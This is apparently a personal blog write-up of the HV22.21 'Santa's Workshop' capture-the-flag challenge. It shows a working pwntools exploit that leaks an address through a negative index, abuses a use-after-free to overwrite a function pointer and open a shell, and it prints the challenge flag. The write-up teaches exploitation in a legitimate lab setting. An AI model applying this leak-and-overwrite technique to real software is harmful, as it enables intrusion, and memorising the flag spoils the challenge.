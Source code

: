 ```yaml
---
title: "[HV22.21] Santa's Workshop"
date: 2022-12-21 14:28:35 +0100
tags: HV22 CTF exploit hard heap leak
categories: HV22 hard
sidebar:
  nav: "hv22"
---
```


Santa decided to invite you to his workshop. Can you find a way to pwn it and find the flag?

# Observation

A classic exploitation, nice! Never successfully done that before (a.k.a. got lot's of help), but learned even more. Let's have a look at the provided [santasworkshop.elf](/assets/hv22/hv22_21_santasworkshop.elf), which also runs on the web socket, by exploring it manually.

We got a main menu with 4 options:

```
Welcome to Santa's Workshop
Enjoy your stay but don't steal anything!
1 View naughty list
2 Check the workshop for items
3 Steal presents
4 Tell a good deed
```

## Naughty list

This option seems to read from a table and gives me back names for some low int values, and an error for numbers above. It doesn't seem to check for negative values since it just sends back an empty string for a few values I tried.

## Check the workshop for items

This option gives back the same thing:

```
Workshop Content:
PIE
Canary
Flag
```

## Steal presents

This leads to closing of the workshop. When I go the workshop again, after trying to steal things, the application segfaults. Interesting.

## Tell a good deed

This one asks me to provide the length of a deed and then for the text itself. If I enter something, it tells me `Cool, maybe you get a flag`. It's unusual that it asks me for a length and then for the content, while it could simply measure the length itself. I know an application has to reserve memory to save something and to do that, it has to know how long this something might be, which leads to vulnerabilities in multiple cases.

# Solution

Let's dig into the assembly of that to better understand what it does and how to get to a flag. Fire up Ghidra and have a look at the functions.

![functions in the file](/assets/hv22/hv22_21_fuctions.png)

Let's have a look at all of them:

- main()
  Does nothing fancy. It displays the 4 options and calls menu().
- menu()
  Waits for a key, but does something strange on option 2. It doesn't call the function directly but the memory address of workshop + 0x28. Let's keep that in mind.
  ```c
  if (pressedKey == 1) {
    naughty();
  }
  else if (pressedKey == 2) {
    (**(code **)(workshop + 0x28))();
  }
  else if (pressedKey == 3) {
    steal();
  }
  else if (pressedKey == 4) {
    tell_deed();
  }
  ```
- naughty()
  Does what I expected basically. It checks for `(int)input < 3`, which leaves open the negative inputs. It then accesses the memory instead of directly echoing the name, which looks like I can leak something here. Let's keep that in mind.
- steal()
  Here it closes the workshop and free's the memory where workshop was located. That's interesting, since that is why the program segfaults when I steal and call workshop again afterwards.
- tell_deed()
  Also does what I expected before. It asks me for the length and malloc's it directly. I can overwrite memory with that. Let's also keep that in mind.

There are two more functions in there.

- print()
  Simply calls printf() on the address of workshop, which gets free'd and causes the segfault.
- present()
  Provides a shell but isn't referenced anywhere.

So, let's make a plan. We know we want to execute `present()`. Since we got another place where memory is free's but called after the free (free() in steal, called in print() / option 2), we could possibly allocate that free'd memory again and put in the address of our `present()` function.

Now we need to find out the location of our `present()` function. Luckily, we have `naughty()`, which leaks information if we enter negative numbers in it.

So, throwing it together, we first try to find a function like this:

```python
from pwn import *
from struct import *

conn = remote('6c70354a-4b31-498a-85e8-86162d32451b.rdocker.vuln.land', 1337)

# enumerate to find address of present() by entering negative values into naughty()

address = ''
for i in range(-255, -230):
    _ = conn.recvuntil("> ")  # prompt
    conn.sendline(b'1')  # 1 View naughty list
    # Tell me an index and I will show you the entry
    _ = conn.recvuntil('entry\n')
    conn.sendline(f"{i}".encode())
    res = conn.recvline()
    res = res.strip()
    if res != b'':
        res = res.hex()
        # reverse little endian
        rev = "".join(reversed([res[i:i+2] for i in range(0, len(res), 2)]))
        print(f"{i}: {res} -> {rev}")
        # should end in c93, added after finding the address
        if rev[-3:] == 'c93':
            address = rev
            break
```

This gives me a few functions, the one with `c93` in the end looks familiar, since it's the start of `menu()`, but that's good enough for an offset. My function is at `0010098a`, so `0x309` away.

Next, we free the workshop's memory and inject our own function in there.

```python
# free workshop
_ = conn.recvuntil("> ")  # prompt
conn.sendline(b'3')  # 3 Steal persents to free workshop

# inject
address = int(address, 16)
presentAddress = address - 0x309  # offset from disasm
package = 0x28 * b'0' + p64(presentAddress)
_ = conn.recvuntil("> ")  # prompt
conn.sendline(b'4')  # 4 Tell a good deed
_ = conn.recvuntil("deed?\n")  # How long is your deed?
conn.sendline(b'48')  # length of the free()'d workshop
_ = conn.recvuntil("deed")  # Okay, tell me the deed
conn.sendline(package)
conn.recvuntil("flag\n")  # Cool, maybe you get a flag
```

Finally, we get interactive to grab the flag:

```python
# get shell
_ = conn.recvuntil("> ")  # prompt
conn.sendline(b'2')  # 2 Check the workshop for items
conn.interactive()
```

In `/challenge/FLAG` there was an ascii art of a flag, where I just pointed my phone at to get the flag `HV22{PWN_4_TH3_W1N}`
